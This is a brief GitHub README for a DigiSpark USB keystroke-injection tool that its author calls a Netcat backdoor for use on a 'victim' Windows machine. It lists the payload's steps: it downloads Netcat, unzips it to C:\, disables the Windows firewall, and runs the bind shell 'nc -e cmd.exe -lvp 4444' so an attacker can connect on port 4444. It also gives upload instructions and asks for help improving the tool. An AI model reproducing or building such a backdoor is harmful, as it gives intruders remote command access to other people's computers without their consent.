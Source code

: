 # DigiSparkNetcatBackDoor
# A simple backdoor with Netcat fired by this DigiSpark key stroke injection.


#How to use?
Coppy the code into Arduino IDE and then upload it to DigiSpark.


#What is this script doing?
Downloads Netcat into the download folder of the logged user;
Unzip the Netcat program to "C:\";
Disable Firewall;
And then run an instance of Netcat with parameters: "nc -e cmd.exe -lvp 4444";

Now you're free to connect to tve victim Windows machine via port 4444(or whatever port u choose)


#The execution time for this attack is somewere in between 20 to 40 seconds(so pretty much a lot of time).
It needs some improvements so contact me if you wanna help!(I'm a beginner)

I'm waiting for your feedback!!!
